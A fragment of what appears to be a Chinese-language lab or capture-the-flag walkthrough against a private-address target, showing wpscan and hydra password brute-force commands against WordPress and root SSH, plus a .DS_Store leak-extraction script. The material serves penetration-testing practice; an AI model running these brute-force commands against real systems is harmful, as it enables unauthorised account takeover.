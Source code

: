 ![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/2.PNG)

`wpscan --url "http://192.168.2.133/wordpress/" --wp-content-dir "/wordpress" --passwords /usr/share/wordlists/rockyou.txt --usernames michael`
爆破这两个口令，然后继续探测

## try4-爆破root口令
`hydra -l root -P /usr/share/wordlists/rockyou.txt -I 192.168.2.133 ssh`

## try5-web敏感文件

#### .DS_Store文件泄露
python ds_store_exp.py http://192.168.2.133/.DS_Store
![23](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/12-11/23.PNG)

?如何提取出.DS_Store这个文件中的信息
